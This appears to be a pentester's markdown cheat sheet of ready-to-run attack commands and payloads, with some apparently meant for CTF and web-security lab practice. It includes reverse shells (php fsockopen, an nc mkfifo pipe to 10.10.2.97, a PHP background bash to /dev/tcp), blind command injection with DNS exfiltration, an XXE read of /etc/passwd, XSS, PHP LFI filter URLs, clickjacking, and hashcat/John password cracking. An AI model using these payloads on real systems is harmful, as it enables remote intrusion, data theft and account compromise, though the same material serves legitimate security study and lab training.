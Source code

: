 ```yaml
---
layout: post
title: Useful Tricks and Tips
---
```


# Hashcat

- hashcat -m 1800 -a 0 hash.txt rockyou.txt

# Find command

```sh
find / -type f -newermt 2016-09-11 ! -newermt 2016-09-13 2>/dev/null
```
# Upgrading to a shell
```sh
python -c 'import pty;pty.spawn('/bin/bash')'
SHELL=/bin/bash script -q /dev/null
```

# Reverse Shell

```sh
php -r '$sock=fsockopen("x.x.x.x",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.2.97 9001 >/tmp/f
```

# Blind OS injection

```sh

||whoami>/var/www/images/output.txt||

# using DNS exfiltration Technique

email=x||nslookup+x.burpcollaborator.net||

```

# XXE Attacks

```html
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>

```
# XSS payloads

```html
<script>onclick(alert("Hello"));</script>
// window.location.hostname

```

# John Hashing

```sh

john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash1.txt
```

# Encryption gpg
- gpg --cipher-algo [encryption type] [encryption method] [file to encrypt] 
- gpg --cipher-algo AES-256 --symetric xyz.txt

## decryption
-- gpg xyz.txt

# How to crack encrypted files using john the ripper
- gpg2john [encrypted gpg file] > [filename of the hash you want to create]

# Reverse a wordlist
```sh
tac data.txt > new_data.txt
```
# Email re
-   email_re = re.compile(r'([a-zA-Z0-9_\+\-\.]+)@(([[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.)|(([a-zA-Z0-9\-]+\.)+))([a-zA-Z]{2,4}|[0-9]{1,3})(\]?)')

## Php reverse shell function
```php

function execInBackground($cmd) { 
                if (substr(php_uname(), 0, 7) == "Windows"){ 
                                    pclose(popen("start /B ". $cmd, "r"));  
                                                    } 
                                                                    else { 
                                                                                        exec($cmd . " > /dev/null &");   
                                                                                                            } 
                                                                                                                            } 
                                                                                                                                        execInBackground("/bin/bash -c 'bash -i >& /dev/tcp/YOUR_IP_HERE/YOUR_PORT_HERE 0>&1'");

```
# PHP LFI
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php

# Practice Labs
Capture the Flag (CTF) API Portal

    docker pull sbacker/ctfapi
    docker run --name ctfapi1 -p 8000:8000 -it -d sbacker/ctfapi

Witcher Portal

    docker pull sbacker/witcherportal
    docker run -it -d --name witcher10 -p8080:8080 -e PYTHONUNBUFFERED=1 sbacker/witcherportal

# Clickjack Attack Payload

```html
<style>
   iframe {
       position:relative;
       width:700px;
       height: 500px;
       opacity: 0.0001;
       z-index: 2;
   }
   div {
       position:absolute;
       top:300px;
       left:60px;
       z-index: 1;
   }
</style>
<div>Click me</div>
<iframe src="https://acbe1f391e8fd65480c7a7ac017500d7.web-security-academy.net/exploit"></iframe>

```
